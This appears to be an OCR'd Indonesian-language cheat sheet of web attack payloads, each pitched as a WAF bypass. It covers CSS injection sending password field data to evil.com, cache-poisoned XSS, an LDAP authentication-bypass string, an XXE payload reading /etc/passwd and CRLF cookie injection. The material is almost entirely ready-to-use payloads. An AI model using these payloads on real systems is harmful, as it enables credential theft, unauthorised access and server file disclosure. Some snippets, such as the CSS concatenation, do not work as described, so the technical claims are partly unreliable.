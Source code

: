 
### **🛡️ 23. CSS Injection to Steal Data**  
```css
input[name="password"] { background-image: url("http://evil.com/log?data="+value); }
```
**📌 Teknik:**  
✅ **CSS Injection** = Mengekstrak data formulir melalui gaya CSS.  
✅ `background-image: url(...)` mengirim data ke server jahat.  
✅ **Bypass WAF** karena bukan kode JavaScript atau SQL.  

---

### **🛡️ 24. Web Cache Poisoning Attack**  
```http
GET /index.php?lang=<script>alert(1)</script> HTTP/1.1
```
**📌 Teknik:**  
✅ **Web Cache Poisoning** = Mengubah cache server untuk menyebarkan XSS.  
✅ `?lang=<script>alert(1)</script>` tersimpan dalam cache dan dieksekusi.  
✅ **Bypass WAF** dengan mengeksploitasi sistem caching yang lemah.  

---

### **🛡️ 25. LDAP Injection for Authentication Bypass**  
```ldap
admin)(|(uid=*))%00
```
**📌 Teknik:**  
✅ **LDAP Injection** = Mengeksploitasi otentikasi berbasis LDAP.  
✅ `(|(uid=*))` menyebabkan server mencocokkan semua pengguna.  
✅ **Bypass WAF** dengan sintaks unik yang jarang difilter.  

---

### **🛡️ 26. XXE (XML External Entity) Attack**  
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```
**📌 Teknik:**  
✅ **XXE** = Mengakses file sistem melalui parsing XML.  
✅ `file:///etc/passwd` membaca data dari server target.  
✅ **Bypass WAF** dengan eksploitasi parser XML yang rentan.  

---

### **🛡️ 27. CRLF Injection for Log Manipulation**  
```http
GET /index.php?name=admin%0D%0ASet-Cookie: session=evil HTTP/1.1
```
**📌 Teknik:**  
✅ **CRLF Injection** = Menyisipkan header HTTP berbahaya.  
✅ `%0D%0A` = Karakter newline yang memisahkan header baru.  
✅ **Bypass WAF** dengan injeksi ke dalam log atau header HTTP.  

---